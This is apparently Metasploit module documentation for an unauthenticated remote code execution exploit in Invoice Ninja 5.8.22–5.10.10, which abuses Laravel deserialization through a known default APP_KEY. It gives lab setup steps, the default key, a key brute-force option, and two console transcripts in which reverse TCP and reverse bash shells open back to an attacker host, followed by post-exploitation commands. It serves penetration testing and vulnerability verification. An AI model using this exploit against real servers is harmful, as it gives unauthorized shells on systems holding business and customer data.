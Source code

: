 ## Vulnerable Application
Invoice Ninja is a free invoicing software for small businesses, based on the PHP framework Laravel.
A Remote Code Execution vulnerability in Invoice Ninja (>= `5.8.22` <= `5.10.10`) allows remote unauthenticated
attackers to conduct PHP deserialization attacks via endpoint `/route/<hash>` which accepts a Laravel
ciphered value which is unsafe unserialized, if an attacker has access to the secret `APP_KEY`.
As it allows remote code execution, adversaries could exploit this flaw to execute arbitrary commands,
potentially resulting in complete system compromise, data exfiltration, or unauthorized access
to sensitive information.

The following release was tested.
* Invoice Ninja `5.10.10` on Ubuntu 22.04

## Installation steps to install Invoice Ninja on a self-hosted platform
`wget https://github.com/invoiceninja/dockerfiles/archive/refs/tags/5.8.22.zip`

`unzip 5.8.22.zip`

`cd dockerfiles-5.8.22`

Replace inside `docker-compose.yml`

FROM `image: invoiceninja/invoiceninja:5` TO `image: invoiceninja/invoiceninja:5.8.22`

Replace in `env`
`APP_KEY=base64:RR++yx2rJ9kdxbdh3+AmbHLDQu+Q76i++co9Y8ybbno=`

Then, execute `docker-compose up`
## Verification Steps
- [ ] Start `msfconsole`
- [ ] `use exploit/linux/http/linux/http/invoiceninja_uauth_rce_cve_2024_55555`
- [ ] `set rhosts <ip-target>`
- [ ] `set rport <port>`
- [ ] `set lhost <attacker-ip>`
- [ ] `set target <0=PHP Command, 1=Unix/Linux Command>`
- [ ] `exploit`
- [ ] you should get a `reverse shell` or `Meterpreter` session depending on the `payload` and `target` settings

## Options
### APP_KEY
This option is required if the BRUTE_FORCE option is not used.
It is the Laravel APP_KEY with a default key: `base64:RR++yx2rJ9kdxbdh3+AmbHLDQu+Q76i++co9Y8ybbno=`.

### BRUTEFORCE
This option is optional and is a text file with a list of APP_KEYs, one per line for a bruteforce attack.

## Scenarios
### Invoice Ninja 5.10.10 on Ubuntu 22.04 -  PHP Command target
Attack scenario: use the default Laravel APP_KEY preset in the option APP_KEY.
```msf
msf > use modules/exploits/linux/http/invoiceninja_unauth_rce_cve_2024_55555
[*] Using configured payload php/meterpreter/reverse_tcp
msf exploit(linux/http/invoiceninja_unauth_rce_cve_2024_55555) > set rhosts 192.168.201.6
rhosts => 192.168.201.6
msf exploit(linux/http/invoiceninja_unauth_rce_cve_2024_55555) > set lhost 192.168.201.8
lhost => 192.168.201.8
msf exploit(linux/http/invoiceninja_unauth_rce_cve_2024_55555) > rexploit
[*] Reloading module...
[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.201.6:443 can be exploited.
[+] The target appears to be vulnerable. Invoice Ninja 5.10.10
[*] Lets check if the APP_KEY(s) is/are valid by decrypting the XSRF_TOKEN inside the cookie.
[*] Grabbing the cookie with the XSRF-TOKEN.
[+] APP_KEY is valid: base64:RR++yx2rJ9kdxbdh3+AmbHLDQu+Q76i++co9Y8ybbno=
[+] Unciphered value: e60eab8287b88f834312505e582750ae6f95a84b|6IWTnJv2f3lL1nbKRbl6LwJixPeRF5grQVTFTIuB
[*] Generate an encrypted serialization payload with our cracked APP_KEY.
[*] Executing PHP for php/meterpreter/reverse_tcp
[*] Sending stage (40004 bytes) to 192.168.201.6
[*] Meterpreter session 1 opened (192.168.201.8:4444 -> 192.168.201.6:60120) at 2025-02-23 09:47:28 +0000

meterpreter > getuid
Server username: www-data
meterpreter > sysinfo
Computer    : cuckoo
OS          : Linux cuckoo 5.15.0-131-generic #141-Ubuntu SMP Fri Jan 10 21:18:28 UTC 2025 x86_64
Meterpreter : php/linux
meterpreter > pwd
/usr/share/nginx/invoiceninja/public
meterpreter >
```
###  Invoice Ninja 5.10.10 on Ubuntu 22.04 - Unix/Linux Command target
Attack scenario: use the BRUTEFORCE option with a list of APP_KEYS in a text file.
```msf
msf exploit(linux/http/invoiceninja_unauth_rce_cve_2024_55555) > set target 1
target => 1
msf exploit(linux/http/invoiceninja_unauth_rce_cve_2024_55555) > set BRUTEFORCE /root/laravel-crypto-killer/wordlists/invoiceninja_default.txt
BRUTEFORCE => /root/laravel-crypto-killer/wordlists/invoiceninja_default.txt
msf exploit(linux/http/invoiceninja_unauth_rce_cve_2024_55555) > rexploit
[*] Reloading module...
[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.201.6:443 can be exploited.
[+] The target appears to be vulnerable. Invoice Ninja 5.10.10
[*] Lets check if the APP_KEY(s) is/are valid by decrypting the XSRF_TOKEN inside the cookie.
[*] Grabbing the cookie with the XSRF-TOKEN.
[*] Starting bruteforce decryption with APP_KEYS listed in /root/laravel-crypto-killer/wordlists/invoiceninja_default.txt.
[+] APP_KEY is valid: base64:RR++yx2rJ9kdxbdh3+AmbHLDQu+Q76i++co9Y8ybbno=
[+] Unciphered value: e60eab8287b88f834312505e582750ae6f95a84b|3epElAO1qNeckBzHOytBrNnGrvRJSyeCBsahBkSO
[*] Generate an encrypted serialization payload with our cracked APP_KEY.
[*] Executing Unix/Linux Command for cmd/unix/reverse_bash
[*] Command shell session 2 opened (192.168.201.8:4444 -> 192.168.201.6:60340) at 2025-02-23 09:49:15 +0000

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
uname -a
Linux cuckoo 5.15.0-131-generic #141-Ubuntu SMP Fri Jan 10 21:18:28 UTC 2025 x86_64 x86_64 x86_64 GNU/Linux
pwd
/usr/share/nginx/invoiceninja/public
```

## Limitations
No limitations.
